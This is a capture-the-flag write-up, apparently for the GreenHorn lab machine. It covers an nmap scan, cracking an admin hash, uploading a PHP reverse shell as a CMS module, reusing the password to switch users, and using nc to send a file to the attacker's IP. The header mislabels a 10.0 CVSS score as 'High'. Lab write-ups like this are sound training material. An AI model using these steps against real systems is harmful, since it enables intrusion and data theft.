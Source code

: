 

# CVSS 3.1 Score:10.0 (High)



### POC: 

I added `greenhorn.htb` to my hosts file.

Start with a basic scan using the command:

`nmap -sC -sV <IP ADRESS>`

`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 13:31 EDT`
`Nmap scan report for greenhorn.htb (10.10.11.25)`
`Host is up (0.042s latency).`
`Not shown: 996 closed tcp ports (conn-refused)`
`PORT     STATE SERVICE VERSION`
`22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)`
`|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)`
`80/tcp   open  http    nginx 1.18.0 (Ubuntu)`
`|_http-generator: pluck 4.7.18`
`|_http-trane-info: Problem with XML parsing of /evox/about`
`| http-cookie-flags:` 
`|   /:` 
`|     PHPSESSID:` 
`|_      httponly flag not set`
`|_http-server-header: nginx/1.18.0 (Ubuntu)`
`| http-title: Welcome to GreenHorn ! - GreenHorn`
`|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn`
`| http-robots.txt: 2 disallowed entries` 
`|_/data/ /docs/`
`3000/tcp open  ppp?`
`| fingerprint-strings:` 
`|   GenericLines, Help, RTSPRequest:` 
`|     HTTP/1.1 400 Bad Request`
`|     Content-Type: text/plain; charset=utf-8`
`|     Connection: close`
`|     Request`
`|   GetRequest:` 
`|     HTTP/1.0 200 OK`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Content-Type: text/html; charset=utf-8`
`|     Set-Cookie: i_like_gitea=28fd3ff78614e003; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=_jmeqwQLwRtbXp-DdjMGWTeoAPI6MTcyMjUzMzUxNTM0Nzc0NTg0OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:31:55 GMT`
`|     <!DOCTYPE html>`
`|     <html lang="en-US" class="theme-auto">`
`|     <head>`
`|     <meta name="viewport" content="width=device-width, initial-scale=1">`
`|     <title>GreenHorn</title>`
`|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX`
`|   HTTPOptions:` 
`|     HTTP/1.0 405 Method Not Allowed`
`|     Allow: HEAD`
`|     Allow: HEAD`
`|     Allow: GET`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Set-Cookie: i_like_gitea=77b36d9374a96fa1; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=1_4kaR4JlNAkYnsmReDtYOIGyGI6MTcyMjUzMzUyMjA3MDUzNDAxMg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:32:02 GMT`
`|_    Content-Length: 0`
`8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)`
`1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :`
`SF-Port3000-TCP:V=7.94SVN%I=7%D=8/1%Time=66ABC689%P=x86_64-pc-linux-gnu%r(`
<.............>
`SF:lain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Req`
`SF:uest");`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 136.32 seconds`

We have three open ports:

- 80/tcp open http
- 22/tcp open ssh
- 3000/tcp open ppp?

On port 80, we found a website we can visit.

By enumeration, we found a login page:

![Alt text](Pasted image 20240801202355.png)


We attempted to enumerate the admin password but found there is a lock for brute force attempts.


![Alt text](Pasted image 20240801202728.png)


![[Pasted image 20240801202835.png]]


We then checked port 3000:

`http://greenhorn.htb:3000/`

![[Pasted image 20240801202955.png]]



![[Pasted image 20240801203107.png]]

![[Pasted image 20240801203143.png]]



![[Pasted image 20240801203256.png]]



![[Pasted image 20240801203501.png]]

By exploring, we found admin files.

We checked the login check files and found the password stored in the `$ww` variable. We located the password hash and determined it was using the SHA-512 hash algorithm. Using `john` and `rockyou.txt`, we cracked the password to `iloveyou1`.

We then logged in to the admin panel.


![[Pasted image 20240801205631.png]]

Next, we navigated to the "Manage Modules" section and installed a module. We created a reverse shell PHP file, zipped it, and uploaded it. By listening on port 1111, we gained access to the system.

![[Pasted image 20240801210023.png]]

![[Pasted image 20240801210441.png]]

![[Pasted image 20240801210609.png]]
We made the shell more interactive and searched for files owned by the user "junior". We attempted to switch users using the previously found password and successfully accessed the user files.

![[Pasted image 20240801212100.png]]

![[Pasted image 20240801212200.png]]

Finally, we checked other files in the user folder and found a PDF document named "Using OpenVAS.pdf". We used `nc` to transfer the file and discovered the root password, which was blurred. Using the tool `depix` to de-pixelate the image, we retrieved the root password and gained root access.

`junior@greenhorn:~$ nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'  
`nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'`

`nc -lvp 1234 > 'Using OpenVAS.pdf'`  
`Listening on 0.0.0.0 1234`  
`Connection received on greenhorn.htb 46338``
``
![[Pasted image 20240801220319.png]]


![[Pasted image 20240801220008.png]]

